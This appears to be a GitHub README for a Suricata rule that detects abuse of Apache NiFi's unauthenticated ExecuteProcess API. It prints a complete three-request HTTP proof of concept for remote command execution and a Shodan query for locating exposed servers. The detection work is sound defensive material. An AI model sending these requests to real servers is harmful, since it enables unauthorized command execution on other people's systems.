 ## Overview
A zero-day vulnerability (still does not have a CVE) in Apache Nifi. It looks like a backdoor because the API ExecuteProcess itself allows users to execute commands. The only problem is Apache Nifi does not enable authentication by default so attackers could access the abusable API to make a remote code execution.

Attackers have to take 3 steps to exploit an Apache Nifi server. First, they need the group id. Second, they make a process by using ExecuteProcess and get the process id. Finally, they insert the commands into the process's properties and get them executed.

In this Suricata rule, I try to capture the 3rd step of the exploit.

### Bonus for bug bounty hunters
Shodan search query for Apache Nifi:  
**http.title:"Nifi"**

## Proof of Concept
* 1st step: get the **group id**
```
GET /nifi-api/process-groups/root HTTP/1.1
Host: example.com:8080
```
* 2nd step: get the **process id**
```
POST /nifi-api/process-groups/12a18460-0172-1000-7305-3bc01519c125/processors HTTP/1.1
Host: example.com:8080
Content-Type: application/json
Content-Length: 105

{"component": {"type": "org.apache.nifi.processors.standard.ExecuteProcess"}, "revision": {"version": 0}}
```
* 3rd step: remote code execution
```
PUT /nifi-api/processors/65a2f415-0176-1000-9235-dc4c47a6417a HTTP/1.1
Host: example.com:8080
Content-Type: application/json
Content-Length: 326

{"component": {"config": {"autoTerminatedRelationships": ["success"], "properties": {"Command": "whoami", "Command Arguments": ""}, "schedulingPeriod": "3600 sec"}, "id": "65a2f415-0176-1000-9235-dc4c47a6417a", "state": "RUNNING"}, "revision": {"clientId": "x", "version": 1}}
```

## References
* https://github.com/imjdl/Apache-NiFi-Api-RCE
